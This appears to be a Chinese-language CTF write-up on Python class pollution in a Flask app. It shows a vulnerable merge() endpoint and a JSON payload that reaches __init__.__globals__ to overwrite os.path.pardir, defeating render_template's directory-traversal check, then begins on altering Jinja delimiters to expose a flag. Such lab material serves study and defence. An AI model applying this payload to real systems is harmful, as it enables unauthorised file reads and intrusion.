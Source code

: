 ```python
instance = cls()


@app.route('/', methods=['POST', 'GET'])
def index():
    if request.data:
        merge(json.loads(request.data), instance)
    return "flag in ./flag but u just can use /file to vist ./templates/file"


@app.route("/<path:path>")
def render_page(path):
    if not os.path.exists("templates/" + path):
        return "not found", 404
    return render_template(path)


app.run(host="0.0.0.0")
```

`render_template`当然会做目录穿越的防御，这个函数将会把传入的模板路径按照`/`进行分割，`os.path.pardir`值即为`..`，函数会判断分割后的内容等不等于`os.path.pardir`，若等于则会抛出异常。

将其修改为无关的

```python
{
    "__init__": {
        "__globals__": {
            "os": {
                "path": {
                    "pardir": "!"
                }
            }
        }
    }
}
```

显然这里比较鸡肋的问题也是得当前模块导入`os`

### jinjia语法重写

在默认的规则规则下，常用`Jinja`语法标识符有`{{ Code }}`、`{% Code %}`、`{# Code #}`。而`Flask`官方文档中明确告知了，这些语法标识符均是可以依照`Jinja`中修改的

```html
<html>
<h1>Look this -> [[flag]] <- try to make it become the real flag</h1>
<body>
</body>
</html>
```
